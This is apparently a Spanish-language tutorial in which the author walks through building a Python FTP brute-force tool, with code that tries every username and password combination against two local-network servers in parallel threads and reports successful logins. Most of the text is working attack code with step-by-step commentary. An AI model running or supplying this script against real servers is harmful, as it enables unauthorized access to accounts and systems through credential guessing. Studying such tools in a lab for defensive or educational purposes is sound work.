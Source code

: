 ```python
print_lock = threading.Lock()

# Creo hilos para atacar dos servidores distintos
hilo1 = threading.Thread(target=ataque_ftp, args=('192.168.1.109', usernames, passwords))
hilo2 = threading.Thread(target=ataque_ftp, args=('192.168.1.101', usernames, passwords))

# Inicio los hilos
hilo1.start()
hilo2.start()

# Espero a que terminen
hilo1.join()
hilo2.join()
```

---

### **Cómo lo Construí Paso a Paso**

#### **1. Empezando con las Librerías**

Primero pensé: "Necesito conectarme a servidores FTP, así que voy a usar `ftplib` porque tiene una clase `FTP` que hace eso fácil". Luego me dije: "Quiero que los ataques a los dos servidores corran al mismo tiempo, así que voy a usar hilos con `threading`". Por eso importé:

```python
from ftplib import FTP
import threading
```

#### **2. Creando la Función Principal**

Decidí hacer una función que ataque un servidor FTP probando combinaciones de usuarios y contraseñas. Quise que fuera genérica para no repetir código para cada servidor. Así que pensé: "Le paso la IP del servidor, una lista de usuarios y una lista de contraseñas, y que pruebe todo". La llamé `ataque_ftp`:

```python
def ataque_ftp(ftp_server, usernames, passwords):
```

Dentro de la función, usé dos bucles `for` para probar cada usuario con cada contraseña. Me dije: "Por cada combinación, intento conectarme con `FTP` y `login`. Si funciona, muestro un mensaje y paro; si falla, sigo con la siguiente". También puse un manejo de errores porque sé que las conexiones fallidas lanzan excepciones:

```python
for username in usernames:
    for password in passwords:
        try:
            ftp = FTP(ftp_server)
            ftp.login(user=username, passwd=password)
            print(f"¡Éxito! Con usuario: {username} y contraseña: {password} en {ftp_server}")
            ftp.quit()
            return
        except Exception:
            print(f"Fallo con usuario: {username} y contraseña: {password} en {ftp_server}")
            try:
                ftp.quit()
            except:
                pass
```
